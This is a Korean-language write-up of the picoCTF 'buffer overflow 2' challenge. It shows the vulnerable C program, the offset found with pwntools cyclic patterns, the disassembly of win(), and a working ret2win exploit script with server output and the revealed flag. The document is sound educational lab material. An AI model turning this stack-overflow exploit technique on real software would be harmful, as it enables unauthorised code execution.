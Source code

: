 # [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Control the return address and arguments
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## 1. 오프셋 구하기
```bash
$ python3 -q
>>> from pwn import *
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 754
>>> p.sendline(cyclic(200))
>>> p.wait()
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 754)
>>> Corefile("./core.754")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.754'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xff84a760
    Exe:       '/home/kali/pico/vuln' (0x8048000)
    Fault:     0x62616164
Corefile('/home/kali/pico/core.754')
>>> cyclic_find(0x62616164)
112
```
오프셋은 112 입니다.

> [!NOTE]
> 위 처럼 구할 수 있는 이유?
> <br />
>
> 프로그램 종료 전 RET은 스택 최상단에 있는 복귀 주소(Return address)를 꺼내어 EIP에 넣고 프로그램의 흐름을 호출자(main)로 되돌립니다. 그러나 패턴 문자열로 버퍼 오버플로우를 일으키면, 이 복귀 주소가 패턴 데이터로 덮이게 됩니다. 그 결과 RET은 정상적인 복귀 주소 대신 패턴의 일부를 EIP에 복사하게 되고, 프로그램은 잘못된 주소로 점프하려다 크래시가 발생하게 됩니다. 이때 EIP에 저장된 값이 패턴 문자열의 몇 번째 위치인지 확인하면, 버퍼의 시작점에서 부터 Return Address까지의 정확한 오프셋을 계산할 수 있습니다.
<br />


## 2. `win()`함수 인자의 정확한 오프셋 확인하기

```asm
pwndbg> x/60i win
   0x8049296 <win>:     endbr32
   0x804929a <win+4>:   push   ebp
   0x804929b <win+5>:   mov    ebp,esp
   0x804929d <win+7>:   push   ebx
   0x804929e <win+8>:   sub    esp,0x54
...
   0x8049303 <win+109>: push   eax
   0x8049304 <win+110>: call   0x8049100 <fgets@plt>
   0x8049309 <win+115>: add    esp,0x10
=> 0x804930c <win+118>: cmp    DWORD PTR [ebp+0x8],0xcafef00d
   0x8049313 <win+125>: jne    0x804932f <win+153>
   0x8049315 <win+127>: cmp    DWORD PTR [ebp+0xc],0xf00df00d
   0x804931c <win+134>: jne    0x8049332 <win+156>
...
```
위 결과로 첫 번째 인자는 `ebp + 0x8`에 위치하고, 두 번째 인자는 `ebp + 0xc`에 위치하는 것을 알 수 있습니다. 분석한 정보를 가지고 공격 코드를 작성할 수 있습니다.

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 55191)

pay = b"A"*112
pay += p32(0x8049296)  # win addr
pay += b"A"*4
pay += p32(0xCAFEF00D) # arg1 (ebp + 0x8)
pay += p32(0xF00DF00D) # arg2 (ebp + 0xc)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Opening connection to saturn.picoctf.net on port 55191: Done
[*] Switching to interactive mode
Please enter your string:
$
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
picoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```
